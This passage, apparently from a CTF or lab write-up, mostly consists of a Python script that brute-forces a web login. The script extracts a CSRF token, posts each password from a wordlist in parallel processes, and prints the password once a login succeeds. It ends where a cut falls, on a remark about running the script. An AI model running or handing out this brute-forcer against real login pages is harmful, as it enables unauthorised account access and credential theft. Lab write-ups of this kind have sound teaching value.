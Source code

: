 ``` python
def brute(password):
    r = s.get(url)
    csrf = re.findall(csrf_re, r.text)[0]
    
    data = {"csrf": csrf,
        "user_name": username,
        "user_password": password,
        "action":"login"}
    r = s.post(url, data=data)

    if "The information is incorrect" in r.text:
        return password, False
    else:
        return password, True


# Taking the words, sending it to brute function using multiprocessing
def main(wordlist, nprocs=MAX_PROC):
    with open(wordlist, 'r', encoding='latin-1') as f:
        words = f.read().rstrip().replace('\r','').split('\n')

    pool = Pool(processes=nprocs)

    i=0
    print_status(0,len(words))
    for password, status in pool.imap_unordered(brute, [passwd for passwd in words]):
        if status:
            sys.stdout.write("\n[+] Found password: {} \n".format(password))
            pool.terminate()
            sys.exit(0)
        else:
            i += 1
            print_status(i, len(words))

    print("\n\n[-] Password not found\n")


# ~a e s t h e t i c s~
def print_status(i, l, max=30):
    sys.stdout.write("\r|{}>{}|  {:>15}/{}".format( "=" * ((i * max)//l), " " * (max - ((i * max)//l)), i, l))


if __name__ == '__main__':
    if len(sys.argv) != 2:
        usage()
    main(sys.argv[1])

```

The script requires you to make it executable. Once the script is run as-is, it will throw the usage out:
